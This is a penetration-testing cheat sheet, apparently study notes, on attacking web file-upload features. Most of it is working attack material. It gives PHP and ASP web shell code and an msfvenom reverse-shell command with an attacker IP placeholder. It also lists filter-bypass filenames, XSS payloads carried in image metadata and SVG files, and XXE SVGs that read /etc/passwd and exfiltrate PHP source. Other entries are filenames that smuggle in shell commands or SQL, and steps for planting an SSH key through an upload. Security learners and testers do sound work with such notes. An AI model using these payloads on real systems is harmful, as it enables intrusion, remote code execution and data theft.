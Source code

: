 # File Uploads

## **Introduction**

> Uploading user files has become a key feature for most modern web applications. File upload vulnerabilities are amongst the most common vulnerabilities found in web and mobile applications.\
> \
> If users' data is not correctly filtered and validated, attackers may store malicious data on the back-end server and exploit the file upload feature to execute arbitrary files on that server

***

## **File Types and Related Attacks**

| File Types              | Potential Attack |
| ----------------------- | ---------------- |
| HTML, JS, SVG, GIF      | XSS              |
| XML, SVG, PDF, PPT, DOC | XXE/SSRF         |
| ZIP, JPG, PNG           | DoS              |

***

## **Web and Reverse Shells Payloads to Inject**

| Web Shell                                                                      | Description                           |
| ------------------------------------------------------------------------------ | ------------------------------------- |
| `<?php file_get_contents('/etc/passwd'); ?>`                                   | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                                                 | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                                           | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                                                    | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell            |
| `https://github.com/Arrexel/phpbash`                                           | PHP Web Shell                         |
| `https://github.com/pentestmonkey/php-reverse-shell`                           | PHP Reverse Shell                     |
| `https://github.com/danielmiessler/SecLists/tree/master/Web-Shells`            | List of Web Shells and Reverse Shells |

***

## **Blacklist filter Bypasses**

| Command                             | Description                                  |
| ----------------------------------- | -------------------------------------------- |
| `shell.phtml`                       | Uncommon Extension                           |
| `shell.pHp`                         | Case Manipulation                            |
| `shell.jpg.php`                     | Double Extension                             |
| `shell.php.jpg`                     | Reverse Double Extension                     |
| `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |

**External Resources:**

1. [List of PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
2. [List of ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)
3. [List of Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)

***

## **Content/Type and Mime/Type Bypass**

1. [List of All Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)
2. [List of File Signatures/Magic Bytes](https://en.wikipedia.org/wiki/List\_of\_file\_signatures)

***

## **File Uploads to XSS Attack**

There are different cases in which you can gain XSS from file uploads:

1. Uploading a HTML file containing a script in javascript
2. Uploading a HTML file containing a link to our server to steal the document cookie

Other cases:

1. Whenever an application shows an image's metadata after its upload, it is possible to inject a payload inside metadata parameters such as `comment` or `artist` by using `exiftool`:
   * `exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg`
2. By using SVG images, it's possible to inject a payload with something like:
   * `<script type="text/javascript"> alert("window.origin");</script>`

***

## File Upload to SSH Access

Suppose you have an Arbitrary File Upload vulnerability where you can also specify the uploaded file's location, whether via a vulnerable filename or a path parameter. Also suppose that you have write access on SSH's authorized\_keys file for a local user.

You can gain an SSH shell using the following:

1. Use `ssh-keygen` to generate a key named `fileup`
2. cat fileup > authorized\_keys
3. Upload the file to `/home/username/.ssh/authorized_keys` (or `/root/.ssh/authorized_keys`).
4. Note that  you might need to leverage a path traversal vulnerability to reach these destinations.
5. Use `ssh username@IP -i fileup` to gain the SSH shell as `username`
6. Notice that SSH might require using `chmod 500 fileup` to use the `-i fileup` option

***

## **File Uploads to XXE Attacks**

1.  \[Read `/etc/passwd`] XXE from SVG images upload by using the following payload:

    ```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <svg>&xxe;</svg>
    ```
2.  \[Exfiltrate PHP Code] XXE from SVG to read source code:

    ```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]> 
    <svg>&xxe;</svg>
    ```

***

## **Injections in File Names**

> * A common file upload attack uses a malicious string for the uploaded file name
> * The filename may get executed or processed if the uploaded file name is reflected on the page.
> * We can try injecting a command in the file name, and if the web application uses the file name within an OS command, it may lead to a command injection attack.
> * Some examples of filenames for this attack:

1. System Command Execution
   * `file$(whoami).jpg`
   * `file`whoami`.jpg`
   * `file.jpg||whoami`
2. XSS from filename:
   * `<script>alert(window.origin);</script>`
3. SQLi from filename:
   * `file';select+sleep(5);--.jpg`

***

## **Windows Specific Attacks**

1. **Reserved Characters:** such as (`|`, `<`, `>`, `*`, or `?`) are characters for special uses (such as wildcards).
   * If the web application doesn't apply any form of input sanification, it's possible to refer to a file different from the specified one (which does not exist)
   * This behaviour causes an error which may be shown on the web application, potentially showing the `upload directory`
2. **Windows Reserved Names:** can be used to replicate the same behaviour as the reserved characters previously shown. (`CON`, `COM1`, `LPT1`, or `NUL`)
3. **Windows Filename Convention:** it's possible to overwrite a file (or refer to a non-existant file) by using the `~` character to complete the filename
   * Example: `HAC~1.TXT` → may refer to hackthebox.txt
   * Reference: [https://en.wikipedia.org/wiki/8.3\_filename](https://en.wikipedia.org/wiki/8.3\_filename)
